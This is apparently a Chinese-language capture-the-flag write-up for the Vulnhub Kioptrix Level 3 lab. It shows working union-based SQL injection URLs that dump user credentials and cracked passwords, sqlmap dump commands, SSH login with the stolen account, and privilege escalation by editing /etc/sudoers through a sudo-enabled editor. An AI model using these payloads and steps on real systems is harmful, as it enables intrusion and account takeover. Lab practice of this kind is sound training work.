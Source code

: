 ```yaml
---
title: Vulnhub-Kioptrix_Level3
date: 2025-2-25 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息枚举

## 主机发现

```
netdiscover -i eth0 -r 192.168.137.0/24
```

![image-20250320011732744](./Kioptrix%20Level3/image-20250320011732744.png)

## nmap

![image-20250320011906500](./Kioptrix%20Level3/image-20250320011906500.png)

# WEB服务

![image-20250320014612476](./Kioptrix%20Level3/image-20250320014612476.png)

在此页面点击图片跳转到的是kioptrix3.com，将域名解析添加到/etc/hosts中去就可以正常显示图片

![image-20250320014937046](./Kioptrix%20Level3/image-20250320014937046.png)

当前页面有个排序功能，尝试对id进行sql注入![image-20250320015113210](./Kioptrix%20Level3/image-20250320015113210.png)

出现保存，说明存在注入点，手注测试之后为数字型闭合

## SQL注入

### 手注

判断列数

```
http://kioptrix3.com/gallery/gallery.php?id=0 order by 6--+&sort=photoid#photos
```

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,2,3,4,5,6--+&sort=photoid#photos
```

查询库名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,database(),3,4,5,6--+&sort=photoid#photos
```

查询表名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+&sort=photoid#photos

表名：
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

查询列名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+&sort=photoid#photos

列名：
userid,username,password,usertype,firstname,lastname,email,datejoined,website,issuperuser,photo,joincode
```

查询内容

```
http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,group_concat(id,"~",username,"~",password),3,4,5,6 from dev_accounts --+&sort=#photos

内容
dreg~0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
loneferret~5badcaf789d3d1d09794d8f021f40f0e(starwars)
```

## sqlmap

```
sqlmap -r sql --batch --dbs -p id
```

![image-20250320021618540](./Kioptrix%20Level3/image-20250320021618540.png)

```
sqlmap -r sql --batch -D gallery --tables -p id
```

![image-20250320021634279](./Kioptrix%20Level3/image-20250320021634279.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts --columns -p id
```

![image-20250320021806341](./Kioptrix%20Level3/image-20250320021806341.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts -C username,password -p id --dump
```

![image-20250320021851115](./Kioptrix%20Level3/image-20250320021851115.png)

## ssh连接

尝试使用得到的账号密码进行连接

```
ssh loneferret@192.168.137.133  -oHostKeyAlgorithms=+ssh-rsa
```

loneferret用户目录下有checksec.sh和CompanyPolic.README

![image-20250320022424144](./Kioptrix%20Level3/image-20250320022424144.png)

意思就是使用ht编辑器来编辑文档，ht编辑器有sudo权限

那么就只需要在/etc/sudoers中加入该用户就可以了

![image-20250320022816840](./Kioptrix%20Level3/image-20250320022816840.png)

解决方法

```
echo $TERM
export TERM=xterm
echo $TERM
```

ht编辑器最下面这行分别对应F1-F10，搜索/etc/sudoers/进行编辑

![image-20250320023044704](./Kioptrix%20Level3/image-20250320023044704.png)

添加

```
loneferretALL=(ALL) NOPASSWD:ALL 
```

即可成功提权

![image-20250320023340077](./Kioptrix%20Level3/image-20250320023340077.png)

